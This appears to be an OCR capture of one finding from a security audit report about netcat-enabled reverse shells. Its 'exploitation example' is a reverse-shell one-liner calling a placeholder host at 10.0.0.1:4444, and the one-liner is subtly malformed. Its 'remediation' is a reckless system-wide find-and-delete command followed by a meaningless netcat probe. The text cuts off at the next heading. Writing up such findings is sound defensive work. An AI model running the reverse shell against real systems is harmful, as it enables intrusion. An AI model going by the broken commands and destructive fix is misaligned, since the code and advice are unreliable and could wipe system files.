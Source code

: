 ┃ Vulnerability: Execution capability enables nc shell callbacks                                                                                                                                                                      ┃
┃ Exploitation Example:                                                                                                                                                                                                               ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃  mkfifo /tmp/f; sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f                                                                                                                                                                              ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Impact: Facilitates reverse command shell establishment                                                                                                                                                                             ┃
┃ Criticality: High (CVSS 8.8)                                                                                                                                                                                                        ┃
┃ Remediation:                                                                                                                                                                                                                        ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃  find / -name 'nc' -o -name 'netcat' | xargs rm -f                                                                                                                                                                                  ┃
┃  /bin/busybox nc -zvw 1 127.0.0.1 4444 >> /dev/null                                                                                                                                                                                 ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Sources:                                                                                                                                                                                                                            ┃
┃ Network Reconnaissance with Netcat | Malware Reverse Shells Explained | MITRE ATT&CK T1071                                                                                                                                          ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                 6. Runtime File Download/Execution                                                                                                  ┃
